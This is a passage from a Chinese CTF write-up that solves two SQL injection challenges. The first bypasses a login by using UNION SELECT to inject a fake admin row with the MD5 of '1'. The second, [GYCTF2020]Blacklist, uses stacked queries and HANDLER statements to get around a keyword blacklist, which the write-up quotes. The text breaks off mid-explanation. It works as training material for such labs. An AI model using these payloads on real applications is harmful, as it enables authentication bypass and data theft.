 ![image-20250212160412022](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250212160412022.png)

根据报错user字段是在第二个

后面就全是查wp的（看的wp都是查看源码发现要传入md5值的

* sqli有个特性：在联合查询并不存在的数据时，联合查询就会构造一个虚拟的数据

所以猜测第3个字段就是密码的字段，这里查看题目github源码发现password被md5加密，所以传入的pw参数会被md5加密后，再和数据库中比较

根据特性，联合查询时传入一个不存在数据的md5值，就会被存放到password的数据库中，然后pw传入这个值，就能成功登录

这里的`c4ca4238a0b923820dcc509a6f75849b`​就是1的md5值

```sql
name=1'union select 1,'admin','c4ca4238a0b923820dcc509a6f75849b'#&pw=1
```

![image-20250212161315813](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250212161315813.png)

### [GYCTF2020]Blacklist

测试了是字符型注入，尝试union注入后得到提示

```
return preg_match("/set|prepare|alter|rename|select|update|delete|drop|insert|where|\./i",$inject);
```

然后继续尝试，用堆叠注入成功了

查数据库

```
1';show databases--+
```

![image-20250212171657465](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250212171657465.png)

查表名

```
1';show tables--+
```

![image-20250212171746388](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250212171746388.png)

查列名（这里要用反引号

```
1';show columns from `FlagHere`--+
```

![image-20250213202258020](https://marin-1347161933.cos.ap-guangzhou.myqcloud.com/img/image-20250212172043889.png)

因为之前发现rename被过滤了，所以之前做过的使用rename改名的方法不行了

查wp，发现一个新方法

> **handler**命令
>
> 查询规则
>
> ```sql
> handler table_name open;
> handler table_name read first;
> handler table_name close;
> ```
>
> 打开数据库，读取第一行数据，读取成功后关闭
>
> ```sql
> handler table_name open;
> handler table_name read next;